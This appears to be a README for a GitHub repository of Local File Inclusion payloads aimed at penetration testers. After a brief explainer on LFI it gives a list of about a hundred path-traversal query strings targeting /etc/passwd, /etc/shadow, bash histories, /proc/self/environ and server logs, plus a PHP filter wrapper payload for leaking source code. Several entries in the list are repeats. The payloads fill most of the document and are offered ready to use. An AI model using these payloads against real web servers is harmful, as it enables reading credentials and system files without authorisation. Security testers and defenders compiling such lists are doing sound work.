 # 🚀 LFI Payloads

Welcome to **LFI Payloads**! This repository is designed to help security researchers and penetration testers identify and exploit **Local File Inclusion (LFI)** vulnerabilities with effective payloads. 🛡️

---

## 📂 What is LFI?
**Local File Inclusion (LFI)** is a web vulnerability that allows an attacker to include files on a server through the web browser. This can potentially lead to:

- 🕵️‍♂️ Information Disclosure
- 🐍 Code Execution
- 🔥 Server Compromise

---

## 📜 Payloads
This repository contains various payloads categorized for easy access:

✅ **Basic Payloads**  
✅ **Encoding Techniques**  
✅ **Traversal Techniques**  
✅ **Wrapper Bypass**  
✅ **PHP Filters**  
✅ **Log Poisoning Payloads**

### 🔥 100 Common LFI Payloads
```
?page=../../../../etc/passwd
?page=../../../../etc/hosts
?page=../../../../windows/win.ini
?page=../../../../boot.ini
?page=../../../../etc/shadow
?page=../../../../etc/group
?page=../../../../proc/self/environ
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../usr/local/apache/logs/access_log
?page=../../../../usr/local/apache/logs/error_log
?page=../../../../var/lib/mysql/mysql.sock
?page=../../../../etc/httpd/httpd.conf
?page=../../../../etc/apache2/apache2.conf
?page=../../../../etc/httpd/conf/httpd.conf
?page=../../../../etc/httpd/conf.d/vhosts.conf
?page=../../../../etc/nginx/nginx.conf
?page=../../../../etc/nginx/sites-enabled/default
?page=../../../../etc/ssl/openssl.cnf
?page=../../../../var/www/html/index.php
?page=../../../../home/user/.bash_history
?page=../../../../root/.bash_history
?page=../../../../etc/issue
?page=../../../../etc/network/interfaces
?page=../../../../etc/resolv.conf
?page=../../../../etc/hostname
?page=../../../../etc/hosts.allow
?page=../../../../etc/hosts.deny
?page=../../../../etc/security/opasswd
?page=../../../../etc/mtab
?page=../../../../etc/fstab
?page=../../../../etc/sudoers
?page=../../../../etc/pam.conf
?page=../../../../etc/profile
?page=../../../../etc/shells
?page=../../../../etc/inittab
?page=../../../../etc/passwd-
?page=../../../../etc/group- 
?page=../../../../etc/shadow- 
?page=../../../../etc/gshadow- 
?page=../../../../var/backups/passwd
?page=../../../../var/backups/group
?page=../../../../var/backups/shadow
?page=../../../../var/backups/gshadow
?page=../../../../dev/mem
?page=../../../../dev/kmem
?page=../../../../dev/port
?page=../../../../proc/mounts
?page=../../../../proc/partitions
?page=../../../../proc/version
?page=../../../../proc/self/status
?page=../../../../proc/self/cmdline
?page=../../../../proc/self/fd
?page=../../../../proc/self/maps
?page=../../../../proc/self/mountinfo
?page=../../../../proc/self/io
?page=../../../../proc/self/limits
?page=../../../../proc/self/cgroup
?page=../../../../proc/self/net/tcp
?page=../../../../proc/self/net/udp
?page=../../../../proc/self/net/raw
?page=../../../../proc/self/net/unix
?page=../../../../proc/self/net/snmp
?page=../../../../proc/self/net/dev
?page=../../../../proc/self/net/ip_conntrack
?page=../../../../proc/self/net/route
?page=../../../../proc/self/net/arp
?page=../../../../proc/self/net/fib_trie
?page=../../../../proc/self/net/netfilter
?page=../../../../var/run/utmp
?page=../../../../var/log/wtmp
?page=../../../../var/log/btmp
?page=../../../../var/log/lastlog
?page=../../../../var/run/utmpx
?page=../../../../var/log/wtmpx
?page=../../../../var/log/btmpx
?page=../../../../var/log/faillog
?page=../../../../var/log/auth.log
?page=../../../../var/log/secure
?page=../../../../var/log/messages
?page=../../../../var/log/syslog
?page=../../../../var/log/kern.log
?page=../../../../var/log/maillog
?page=../../../../var/log/yum.log
?page=../../../../var/log/dpkg.log
?page=../../../../var/log/apt/history.log
?page=../../../../var/log/apt/term.log
?page=../../../../var/log/aptitude
?page=../../../../var/log/boot.log
?page=../../../../var/log/cron
?page=../../../../var/log/daemon.log
?page=../../../../var/log/debug
?page=../../../../var/log/lpr.log
?page=../../../../var/log/user.log
?page=../../../../var/log/xferlog
?page=../../../../var/log/mail.info
?page=../../../../var/log/mail.warn
?page=../../../../var/log/mail.err
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
```

---

## ⚙️ Usage
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/LFI-Payloads.git
   ```
2. Navigate to the folder:
   ```bash
   cd LFI-Payloads
   ```
3. Use the categorized payloads as per your testing requirements.

---

## 🧰 Examples
**Basic Payload:**
```bash
?page=../../../../etc/passwd
```

**PHP Filter Bypass:**
```bash
?page=php://filter/convert.base64-encode/resource=index.php
```

---

